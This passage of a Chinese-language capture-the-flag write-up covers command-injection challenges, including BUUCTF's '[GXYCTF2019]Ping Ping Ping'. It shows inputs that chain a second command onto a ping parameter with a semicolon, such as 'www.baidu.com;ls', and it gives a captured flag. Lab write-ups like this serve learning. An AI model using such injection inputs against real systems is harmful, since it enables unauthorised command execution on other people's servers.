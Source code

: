www.baidu.com;echo hello

![image-20210514201413847](WriteUp.assets/image-20210514201413847.png)

![image-20210514201736832](C:\Users\Cha\AppData\Roaming\Typora\typora-user-images\image-20210514201736832.png)

查看各个目录，寻找flag

```
flag{a941a556-54af-40dc-be73-98e66ca5ce47}
```

完

### [GXYCTF2019]Ping Ping Ping

![image-20210514212445252](WriteUp.assets/image-20210514212445252.png)

推测使用ping命令

![image-20210514212518619](WriteUp.assets/image-20210514212518619.png)

返回命令结果，使用管道或者；

[9f907086-8cc8-4dee-a309-9b14b3765fd0.node3.buuoj.cn/?ip=www.baidu.com;ls](http://9f907086-8cc8-4dee-a309-9b14b3765fd0.node3.buuoj.cn/?ip=www.baidu.com;ls)
